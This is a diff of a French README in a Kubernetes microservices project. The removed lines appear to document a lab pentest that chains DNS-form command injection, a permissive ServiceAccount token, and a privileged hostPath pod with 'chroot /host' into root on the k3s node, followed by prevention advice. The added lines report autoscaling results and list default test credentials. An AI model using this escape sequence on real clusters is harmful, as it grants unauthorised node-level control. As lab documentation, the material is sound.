

Before and after one commit to LaChevrenen/MicroService2, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -302,27 +176,4 @@ spec:
-```bash
-./kubectl apply -f escape.yaml
-./kubectl get pods -n infres   # cloud-escape-pod Running
-./kubectl exec -it cloud-escape-pod -n infres -- /bin/sh
-chroot /host
-whoami   # → root
-```
-
-![Escape pod → chroot → root sur le nœud](docs/screens/vulnnode-06-root.png)
-
-**Prévention** : activer le `PodSecurity` admission controller en mode `restricted` (standard Kubernetes depuis 1.25), ou OPA/Gatekeeper pour interdire explicitement `privileged: true`, `hostPath`, `hostNetwork/PID/IPC`.
-
----
-
-### Résultat
-
-Root sur le nœud k3s via 3 vulnérabilités enchaînées :
-
-```
-Command injection dans le formulaire DNS
-→ shell dans le pod vulnnode
-→ token ServiceAccount trop permissif → kubectl create pod
-→ pod privilégié + hostPath mount → chroot /host → root sur le nœud
-```
+Résultat observé : CPU 2% → 501% → scale up **2 → 4 replicas** en ~30s.
 
 ---
 
@@ -330,5 +181,5 @@ Command injection dans le formulaire DNS
 
 | Utilisateur | Mot de passe | Rôle |
 |-------------|--------------|------|
-| testuser | testpass | utilisateur |
-| admin | admin | admin Keycloak (http://localhost:8180) |
+| testuser | testpass | utilisateur Keycloak |
+| admin | admin | admin Keycloak (port 8180) |
````
Also changed, not shown: other parts of README.md (+23 -149 lines), docs/pentest.md (added, +123 -0 lines).
